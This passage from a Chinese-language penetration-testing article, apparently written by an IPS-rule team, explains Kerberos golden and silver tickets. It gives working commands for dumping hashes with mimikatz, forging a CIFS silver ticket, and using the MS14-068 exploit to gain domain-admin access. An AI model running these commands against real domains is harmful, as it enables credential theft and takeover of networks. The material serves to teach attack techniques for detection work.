 黄金票据和白银票据的一些区别：

Golden Ticket：伪造 TGT，可以获取任何 Kerberos 服务权限，且由 krbtgt 的 hash 加密，金票在使用的过程需要和域控通信

白银票据：伪造 TGS，只能访问指定的服务，且由服务账号（通常为计算机账户）的 Hash 加密 ，银票在使用的过程不需要同域控通信

1. 在域控上导出 hash

mimikatz log "privilege::debug" "sekurlsa::logonpasswords"

![](https://image.3001.net/images/20200304/15833022389491.png!small)

2、利用 Hash 制作一张 cifs 服务的白银票据：

kerberos::golden /domain:ABC.COM /sid: S-1-5-21-3912242732-2617380311-62526969 /target:DC.ABC.COM /rc4:f3a76b2f3e5af8d2808734b8974acba9 /service:cifs /user:strage /ptt

![](https://image.3001.net/images/20200304/15833022478731.png!small)

cifs 是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统:

![](https://image.3001.net/images/20200304/15833022549963.png!small)

**3.4.4MS14-068**

MS14-068 域提权漏洞，对应补丁编号：kb3011780，利用该漏洞可以将任何一个域用户提权至域管理员权限。

1、在普通域用户机器上直接访问域控制器的 C 盘目录

![](https://image.3001.net/images/20200304/15833022661721.png!small)

2、利用 MS14-068 伪造生成 TGT：

```
MS14-068.exe -u strage@test.com -s S-1-5-21-457432167-2946190674-2696793547-1103 -d 192.168.140.140 -p Admin@str
```

![](https://image.3001.net/images/20200304/15833022761821.png!small)

3、利用 mimikatz 将工具得到的 TGT 票据写入内存，创建缓存证书：

```
mimikatz.exe "kerberos::ptc TGT_strage@test.com.ccache" exit
```

![](https://image.3001.net/images/20200304/15833022973102.png!small)![](https://image.3001.net/images/20200304/15833023108324.png!small)

4、重新执行 dir 命令：

> dir [\\dc\C$](file://dc/C$)

![](https://www.geekpark.net/zhuanti/edit/js/ueditor/themes/default/images/spacer.gif)

四、总结
----

本文从攻击者视角总结了突破边界后的攻击技巧， 我们团队开发 ips 规则也从相关协议和流量角度来发现攻击者进入内网的痕迹。后续如果从防护角度有新的分析结果我们也会进行分享出来，同时也欢迎攻防大佬一起交流。由于水平有限，欢迎大家指出文中的错误和交流指教。
